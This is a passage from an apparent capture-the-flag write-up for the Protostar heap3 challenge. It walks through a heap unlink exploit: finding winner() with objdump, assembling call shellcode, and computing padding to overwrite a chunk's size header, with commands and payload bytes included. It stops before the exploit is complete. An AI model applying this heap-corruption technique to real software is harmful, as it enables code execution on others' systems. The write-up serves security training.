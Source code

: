 ```shell
```

Now it's time to think about our solution!

Looking at the source code, we can see that the program first frees the third chunk. To make our exploit easier, we'll modify the heap in a way that triggers **forward consolidation**.

We want to avoid **backward consolidation** because it makes things more complicated, and that's not what we want. So, **forward consolidation** is our best choice right now!

### Creating Exploit

We first find the address of **winner()** using `objdump`.

```shell
user@protostar:/opt/protostar/bin$ objdump -t ./heap3 | grep winner
08048864 g     F .text  00000025              winner
```

Now then we want to place the address of **winner()** into the **GOT entry**. A wise way to do this is to create a payload and place that onto the heap.

```asm
mov eax, 0x08048864
call eax
```

Using <a href="https://defuse.ca/online-x86-assembler.htm" target="_blank">online x86 disassembler</a> will help us disassemble our assembly code.

Here is the payload:

```shell
\xB8\x64\x88\x04\x08\xFF\xD0
```

But where should we place this payload in the heap?

The idea here is to put the payload on the first chunk. But things should be under careful consideration since the first word in the **user data** is written with the address of the next free chunk. How about crafting 4 words' padding? That's sound fantastic! We will add a padding with 12 A, then is our shellcode.

Here is the first argument:

```shell
user@protostar:~$ python -c 'print "A" * 12 + "\xB8\x64\x88\x04\x08\xFF\xD0"' > /tmp/A
```

We can use the second argument to overwrite the size of the third chunk to be greater than 80 bytes to trigger the **unlink()** macro when the third chunk is **free()**. 

The second chunk's data starts at `0x804c030`, ends 32 bytes later at `0x804c050`, and the third chunk's size is four bytes later at `0x804c054`
So our padding must be:

$$
32 + 4 = 36
$$
